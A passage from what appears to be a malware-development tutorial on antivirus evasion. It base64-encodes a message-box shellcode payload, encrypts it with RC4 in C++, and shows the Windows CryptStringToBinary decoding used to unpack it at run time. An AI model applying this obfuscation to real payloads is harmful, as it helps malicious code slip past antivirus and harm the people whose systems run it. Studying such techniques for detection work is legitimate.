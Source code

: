 ```cpp
}
```

### practical example

For our practical example first of all I base64 encoded our meow-meow messagebox payload, which in turn will be encrypted with the `RC4` algorithm:    

![av-evasion](/assets/images/65/2022-08-16_06-02.png){:class="img-responsive"}      

```cpp
unsigned char* plaintext = (unsigned char*)"/EiB5PD////o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii1IYPkiLUiA+SItyUD5ID7dKSk0xyUgxwKw8YXwCLCBBwckNQQHB4u1SQVE+SItSID6LQjxIAdA+i4CIAAAASIXAdG9IAdBQPotIGD5Ei0AgSQHQ41xI/8k+QYs0iEgB1k0xyUgxwKxBwckNQQHBOOB18T5MA0wkCEU50XXWWD5Ei0AkSQHQZj5BiwxIPkSLQBxJAdA+QYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVo+SIsS6Un///9dScfBAAAAAD5IjZX+AAAAPkyNhQkBAABIMclBukWDVgf/1UgxyUG68LWiVv/VTWVvdy1tZW93IQA9Xi4uXj0A";
unsigned char* key = (unsigned char*)"key";
unsigned char* ciphertext = (unsigned char *)malloc(sizeof(unsigned char) * strlen((const char*)plaintext));
RC4(plaintext, ciphertext, key, strlen((const char*)key), strlen((const char*)plaintext));
```

So in our malware we do the reverse process: first we decrypting it via `RC4` then decoding via `base64`. For base64 decoding process I used Win32 crypto API:      

```cpp
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

//...
//...
//...

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
  if (!fRet) outLen = 0;  // failed
  return (outLen);
}

//...
```